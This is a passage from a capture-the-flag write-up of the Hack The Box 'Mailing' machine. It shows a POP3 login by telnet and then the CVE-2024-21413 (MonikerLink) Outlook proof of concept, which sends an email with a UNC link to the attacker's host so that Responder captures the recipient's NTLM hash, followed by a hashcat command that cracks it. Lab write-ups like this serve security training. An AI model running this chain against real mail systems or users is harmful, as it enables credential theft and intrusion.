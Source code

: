 ## Initial Foothold

We can use Telnet to test the POP3 connection, the steps are explained [here](https://www.resellerspanel.com/articles/cloud-web-hosting-articles/email/testing-incoming-mail-pop3-settings-via-telnet/).

```
telnet 10.129.59.26 110

USER administrator@mailing.htb
PASS homenetworkingadministrator
```

![POP3 mail box check](/images/HTB-Mailing/pop3-check.png)

The mailbox is empty but we know that there is a mail server set up with authentication. On the website we can read `Using any mail client you can connect to our server with your account with any system (Linux, MacOS or Windows)`.

The target is running Windows so it is most likely using Microsoft Outlook. One of the most recent vulnerability in Outlook is [MonikerLink](https://blog.checkpoint.com/research/check-point-research-unveils-critical-monikerlink-vulnerability-in-microsoft-outlook-with-a-9-8-cvss-severity-score/), which can lead to the leaking of local NTLM credential information. 

> TryhackMe has a [room](https://tryhackme.com/r/room/monikerlink) specifically dedicated to that vulnerability.

Knowing this we find a PoC for this vulnerability [here](https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability). We can use it to send an email to a valid user and leak their NTLM hash. 

> After reading the instructions PDF (available for download on the website) we discover that `maya@mailing.htb` is a valid user on the server on (page 16).

1. Setup Responder 

```
sudo responder -I tun0
```

2. Send the email

```
python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender administrator@mailing.htb --recipient maya@mailing.htb --url '\\MY_IP_ADDRESS\test' --subject Hi
```

![Email sent via PoC](/images/HTB-Mailing/email_sent_poc.png)

3. Crack the hash received in Responder

![Hash obtained for maya](/images/HTB-Mailing/responder-hash.png)

```
hashcat -a 0 -m 5600 maya_hash.txt /usr/share/wordlists/rockyou.txt
```
